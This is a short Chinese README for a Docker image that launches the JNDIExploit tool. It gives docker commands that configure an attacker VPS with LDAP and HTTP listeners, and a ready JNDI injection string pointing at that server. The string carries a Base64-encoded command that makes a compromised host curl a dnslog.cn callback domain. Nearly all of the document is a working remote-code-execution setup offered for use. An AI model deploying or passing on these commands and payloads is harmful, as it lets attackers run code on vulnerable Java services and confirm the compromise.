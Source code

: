 # jndiexp
自用的一键启动JNDIExploit-1.2-SNAPSHOT.jar
用法：

docker pull coffeehb/jndiexp:latest

docker run -it --rm -e LDAP_PORT=1389 -e VPS_IP=你的VPSIP -e HTTP_PORT=8000 -p 8000:8000 -p 1389:1389 coffeehb/jndiexp:latest

JNDI：

```
JNDI:ldap://你的VPSIP:1389/Basic/Command/Base64/Y3VybCB4eHh4c3Nzam5kaWV4cHgyMjJ4eC50cnh4emZpLmkuZG5zbG9nLmNu
```

# 效果：

![avatar](jndiexp1.png)
